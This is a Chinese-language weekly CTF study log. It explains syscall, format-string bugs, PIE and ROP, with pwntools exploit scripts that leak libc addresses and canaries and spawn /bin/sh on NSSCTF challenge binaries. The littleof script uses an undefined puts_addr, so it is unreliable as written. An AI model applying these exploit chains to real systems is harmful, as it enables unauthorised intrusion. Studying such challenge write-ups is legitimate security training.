










# <font style="color:rgb(38, 38, 38);">完成事项</font>
+ ret2libc,canary,pie,格式化字符串学习

# <font style="color:rgb(38, 38, 38);">下周待做事项</font>
+ 锻炼综合素养，希望能将浙江省初赛复现ROP打出来，继续深入学习ret2syscall,同时希望在本周末可以开始学习汇编

# <font style="color:rgb(38, 38, 38);">本周学习的知识分享</font>
### ret2syscall
在c中，执行的函数一般都是高级函数，例如system函数，是人为创建的，而系统本身是没有这些的，ret2libc是找到libc库中的函数，进行调用，而ret2syscall，是我们需要去返回到syscall，那么syscall是什么呢？
syscall是一条汇编指令（机器码通常是0F05），它的本质不是简单的跳转，而是CPU特权级的切换和上下文的保存与恢复。
说人话：当我们执行syscall是，当前我们会从用户态转变成内核态，相当于CPU有了更高的权限去读写数据
#### 执行syscall步骤
1.准备
在执行syscall之前，你必须先把“指令代码”和“参数”放入指定的通用寄存器。这是硬件规定的协议。RAX寄存器：必须存放系统调用号（一个整数）。比如59代表execve，0代表 read。内核只看RAX来决定干什么。RDI,RSI,RDX等寄存器：存放参数，比如字符串的地址，数字等。
2.执行瞬间
当 CPU 读到 syscall 这条指令时，它硬件电路瞬间完成了以下动作
1.从用户切换到内核
2.CPU 会把当前的RIP保存到RCX寄存器里，把当前的标志位（RFLAGS）保存到R11寄存器里，这是为了以后能回得来。
3.自动跳转：CPU会去读取一个特殊的模型特定寄存器(MSR,Model Specific Register)，这个寄存器里存着操作系统内核的入口地址（叫做LSTAR）。CPU 把这个LSTAR里的地址直接写入RIP。于是，下一条指令就开始执行操作系统的内核代码了。
对于execve("/bin/sh")由于是在内核态运行的，所以execve("/bin/sh")会将当前所有进程全部清除，相当于（掀棋盘）
### 格式化字符串漏洞
利用了函数的相关特性，例如printf()函数.
1.printf()函数本身并不知道到有多少个参数，参数的数量，由格式化字符串的数量来决定。当一个printf中，只使用了第一个参数，那么printf()会将这些栈中其他的数据当作printf()函数的其他参数。比如存在格式化字符串%s，相关利用方法，对于printf()函数，读取字符串时，遇见空字符会停下并打印，而对于canary保护来说，一般第一个字节都是空字符，printf()函数遇见会自动停下，所以当我们使用sendline时，会在末尾加上\n，即将空字符覆盖掉，就能顺利读取canary里面的随机值了。
2.%n，这个是将printf已经打印出来字符的数量写入接下来要使用的内存中，这样子当我们配合%x$n使用时，就能在地址上去写值
3.%p，通过计算某些首地址和想要打印的参数的偏移量，来完成泄露，例如canary,由于canary为8字节，所以我们可以使用%p以地址的形式将canary泄露出来，防止对这个随机值进行错误的截断
### PIE
PIE（地址无关可执行文件）是一种针对代码段（.text）、数据段（.data）、未初始化全局变量段（.bss）等固定地址进行随机化的保护机制。开启后，程序每次运行加载的基地址都是随机的，我们只能看到偏移量
面对PIE时，我们需要想办法泄露出基地址，我们能看到的偏移量都是依据基地址偏移的，我们可以根据实际地址=基地址加偏移量来算出
对于泄露基地址的方法，我们也可以通过格式化字符串来完成
### 例题
#### ret2libc
1.[2021 鹤城杯]babyof
可以看到buf是64大小，距离RBP40h,刚开始使用了puts函数，我们可以使用传参机制，将puts的真实地址打印，再算出其他参数的偏移量
``` python
#! /usr/bin/python3
from pwn import *
from LibcSearcher import *
context.arch = 'amd64'
context.os = 'linux'
r = remote('node5.anna.nssctf.cn',21943)
elf = ELF('./babyof')
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
backdoor_addr = 0x0000000000400632
ret_addr = 0x0000000000400506
rdi_addr = 0x0000000000400743
offset = b'a'*72
payload1 = offset + p64(rdi_addr) + p64(puts_got) + p64(puts_plt) + p64(backdoor_addr)
r.recvuntil(b'Do you know how to do buffer overflow?\n')
r.sendline(payload1)
r.recvuntil(b'I hope you win\n')
leaked_data = r.recvuntil(b'\x7f')
leaked_data = leaked_data[-6:]
leaked_data = leaked_data.ljust(8, b'\x00')
puts_addr = u64(leaked_data)
print("puts_addr:", hex(puts_addr))
libc = LibcSearcher('puts', puts_addr)
libc_base = puts_addr - libc.dump('puts')
system_addr = libc_base + libc.dump('system')
binsh_addr = libc_base + libc.dump('str_bin_sh')
print("libc_base:", hex(libc_base))
print("system_addr:", hex(system_addr))
print("binsh_addr:", hex(binsh_addr))
payload2 = offset + p64(ret_addr) + p64(rdi_addr) + p64(binsh_addr) + p64(system_addr)
r.recvuntil(b'Do you know how to do buffer overflow?\n')
r.sendline(payload2)
r.interactive()
```
2.[2021 鹤城杯]littleof
和刚才的babyof不同，这道题很明显能看出开了canary，我们需要进行绕过，绕过思路就是格式化字符串，我们能看到
``` python
printf("%s. Try harder!", buf)
```
从buf首字节开始进行打印，以字符串形式，也就是说，当碰见第一个空字节的时候，停止打印。
我们可以看到
``` python
unsigned __int64 v3; // [rsp+58h] [rbp-8h]
```
这个canary在距离rbp 8h的地方，也就是说我们需要覆盖72 + canary +8，我们可以利用sendline,将canary空字节覆盖掉，进行泄露
``` python
#! /usr/bin/python3
from pwn import *
from LibcSearcher import *
context.arch = 'amd64'
context.os = 'linux'
r = remote('node4.anna.nssctf.cn',28169)
elf = ELF('./littleof')
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
main_addr = 0x400789
backdoor_addr = 0x4006e2
ret_addr = 0x40059e
rdi_addr = 0x400863
offset = b'a'*0x48
r.recvuntil(b'overflow?\n')
r.sendline(offset)
r.recvuntil(b'a'*0x48+b'\n')
received_data = r.recv(7)
received_data = received_data.rjust(8, b'\x00')
canary_addr = u64(received_data)
print("canary_addr:", hex(canary_addr))
r.recvuntil(b'Try harder!')
payload1 = offset + p64(canary_addr) + b'a'*8 + p64(rdi_addr) + p64(puts_got) + p64(puts_plt) + p64(main_addr)
r.sendline(payload1)
r.recvuntil(b'I hope you win\n')
u64(r.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
print("puts_addr:", hex(puts_addr))
libc = LibcSearcher('puts', puts_addr)
libc_base = puts_addr - libc.dump('puts')
system_addr = libc_base + libc.dump('system')   
binsh_addr = libc_base + libc.dump('str_bin_sh') 
print("libc_base:", hex(libc_base))
print("system_addr:", hex(system_addr))
print("binsh_addr:", hex(binsh_addr))
r.recvuntil(b'overflow?\n')
r.sendline(offset)
r.recvuntil(b'a'*0x48)
received_data = r.recv(7)
received_data = received_data.rjust(8, b'\x00')
canary_addr = u64(received_data)
print("canary_addr:", hex(canary_addr))
r.recvuntil(b'Try harder!')
payload2 = offset + p64(canary_addr) + b'a'*8 + p64(ret_addr) + p64(rdi_addr) + p64(binsh_addr) + p64(system_addr)
r.sendline(payload2)
r.interactive()
```
首先我们截取到\n，之后再对canary截取，进行补位，利用第二次read，泄露puts地址，在程序第二次运行时，重新泄露canary，之后跳转到system("/bin/sh")
3.[HNCTF 2022 Week1]ezr0p64
这道题就比较简单了，已经给出了puts真实地址，直接利用就行
4.[CISCN 2019华中]PWN1
一道菜单题，涉及到ret2libc
我们看主函数发现，这个程序分为三个部分，一个菜单，一个encrypt，一个判断，不让你输入2，输入3退出，只能输入1，同时，理论上来说这个encrypt函数,会对我们payload进行处理，想让我们绕过加密，但是由于x在rbx中，再去进入函数利用的时候也没有清零，导致寄存器x里面是一个垃圾值，可能比strlen(s)是要大的，之后根据原代码逻辑，直接就break跳出循环了，导致实际上可能会出现没有进入加密的情况，这也是我偶然发现的。
``` python
#! /usr/bin/python3
from pwn import *
from LibcSearcher import *
context.arch = 'amd64'
context.os = 'linux'
r = remote('node5.anna.nssctf.cn',23733)
rdi_addr = 0x0000000000400c83
elf = ELF('./CISCNpwn2')
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
main_addr = elf.sym['main']
ret_addr = 0x00000000004006b9
offset = b'\x00' + b'a'*0x57
payload1 = b'1'
payload4 = offset + p64(rdi_addr) + p64(puts_got) + p64(puts_plt) + p64(main_addr)
r.recvuntil(b'Input your choice!\n')
r.sendline(payload1)
r.recvuntil(b'Input your Plaintext to be encrypted\n')
r.sendline(payload4)
r.recvuntil(b'Ciphertext\n')
received_data = r.recvuntil(b'\x7f')
received_data = received_data[-6:]
received_data = received_data.ljust(8, b'\x00')
puts_addr = u64(received_data)
print("puts_addr:", hex(puts_addr))
libc = LibcSearcher('puts', puts_addr)
libc_base = puts_addr - libc.dump('puts')
system_addr = libc_base + libc.dump('system')
binsh_addr = libc_base + libc.dump('str_bin_sh')
print("libc_base:", hex(libc_base))
print("system_addr:", hex(system_addr))
print("binsh_addr:", hex(binsh_addr))
payload3 = offset + p64(ret_addr) + p64(rdi_addr) + p64(binsh_addr) + p64(system_addr)
r.recvuntil(b'Input your choice!\n')
r.sendline(payload1)
r.recvuntil(b'Input your Plaintext to be encrypted\n')
r.sendline(payload3)
r.interactive()
```
这是对strlen进行绕过的脚本，但是由于我太菜了，当时我直接0x58个a上去，直接乱拳打死老师傅
（这应该算出题人的失误吧）
#### fmt
1.ezfmt
可以看到，这个题存在格式化漏洞，将flag放在了name中，之后把name的地址给了v5，那我们直接打印字符串就完事了
``` python
#! /usr/bin/env python3
from pwn import * 
r = remote('node5.anna.nssctf.cn',26022)
payload = b'%38$s'
r.recvuntil(b'Input your format string.\n')
r.send(payload)
r.interactive()
```
计算多少个偏移buf举例v5256字节，那么就是256/8加上寄存器中的参数6，为38
这个8也就是步长，64位一次处理64bit就是8bytes,32位就是4，而不管是什么参数都是8，因为会涉及到对齐问题
#### pie
1.ezpie



这个题泄露了main地址，我们也能知道偏移量，于是就可以计算出基地址，从而算出其他的地址
``` python
#! /usr/bin/env python3
from pwn import *
r = remote('node5.anna.nssctf.cn',28479)
r.recvuntil(b'OHHH!,give you a gift!\n')
leak_addr = r.recvline()
print(leak_addr)
leak_addr = leak_addr[2:-1]
main_addr = leak_addr
print(main_addr)
main_addr = int(main_addr,16)
print(hex(main_addr))
shell_addr = main_addr + 0x09F
payload = b'a'*44 + p32(shell_addr)
r.recvuntil(b'Input:\n')
r.send(payload)
r.interactive()
```
# <font style="color:rgb(38, 38, 38);">本周学习总结</font>
深入学习了ret2libc,也主要了解了canary，pie的绕过方式，学习简单利用格式化字符串漏洞，简单了解了ret2syscall

# <font style="color:rgb(38, 38, 38);">杂项</font>
浅谈一下对ROP的理解
ROP面向返回编程，通常，我们利用溢出，将数据覆盖到返回地址，进行修改，这个返回地址，是在最开始call函数时，完成的其中一个动作，将接下来要执行的指令压到栈中，那么，我们通过修改这里的值，就能将程序流引到别的地方。当我们执行ret指令时，其实是将这里存放的地址弹到RIP中，cpu通过找到RIP里的值跳转到接下来的指令中，那么在ret2libc中，我们把返回地址修改到了存放着pop rdi这个指令的地址，在这个指令中，需要将栈顶的值存放到RDI寄存器中，也就是此时栈顶存放的putsgot，那么接下来继续ret，有人问。为什么是ret，因为CPU是按步骤一个一个执行的，此时程序已经脱离了原有的顺序，此时必须顺着pop rdi这个指令接下来的指令继续走，因为RIP就是将下一个指令的地址不断存入，可是你怎么知道下一个就是ret呢，因为我们要找的pop rdi不能是随便的指令，他的下一个指令必须是ret指令，而接下来，我们就开始执行puts_plt了，在执行这个函数前，会把栈顶的数据当作retaddr，也就是此时的main函数地址，puts正常执行完后，跳转到main的地址
在ROP中，涉及到了两种不同的指令
1.顺序执行指令（如 mov, add, pop）
2.流控制指令（如 jmp, call, ret）
顺序执行指令也就是将下一个指令放在RIP，CPU找到进行自动步进（通过这条指令的长度，算出下一条指令的位置），是按步骤的，流控制，也就是强行修改程序执行顺序，比如ret，程序利用ret，强行回到原来的程序流中，而我们利用ret，强行跳转到我们想跳转的地方

